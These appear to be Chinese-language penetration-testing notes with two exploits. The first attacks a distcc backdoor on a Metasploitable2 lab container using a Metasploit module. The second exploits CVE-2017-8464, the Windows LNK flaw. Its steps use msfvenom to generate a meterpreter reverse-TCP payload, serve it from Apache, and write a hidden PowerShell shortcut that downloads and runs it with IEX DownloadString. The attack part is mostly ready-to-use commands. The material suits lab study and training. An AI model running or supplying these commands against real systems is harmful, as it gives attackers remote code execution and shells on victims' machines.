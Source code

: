 
## Distcc 后门漏洞

分布式编译

**靶机**

```
$ docker run -it --rm -p 3632:3632 tleemcjr/metasploitable2:latest
```

**msf**

```
> search distcc
> use exploit/unix/misc/distcc_exec
> set payload
> set RHOSTS
> set LHOST
> exploit
```


## 震网三代

CVE-2017-8464

windows 系统通过解析 .LNK 后缀文件时，是使用二进制，当恶意当二进制代码被系统识别执行时，可以实现远程代码执行，由于是 expoore.exe 进程中进行的，所以 load 进内存时，具有和当前用户相同的权限

**漏洞利用**

1. 在 Kali 中使用 `msfvenom` 生成一个反弹 shell

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp \
lhost=x.x.x.x \
lport=xxxx \
-f psh-reflection > ~/shellcode.ps2
```
2. copy 进 web 目录

```
$ cp ~/shellcode.ps2 /var/www/html/
```

3. 启动 Apache

```
$ service apache2 start
```

4. 访问文件 url，测试连通性

5. 靶机上创建快捷方式，写入

```
powershell -windowstyle hidden -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://ip/shellcode.ps2')"
```
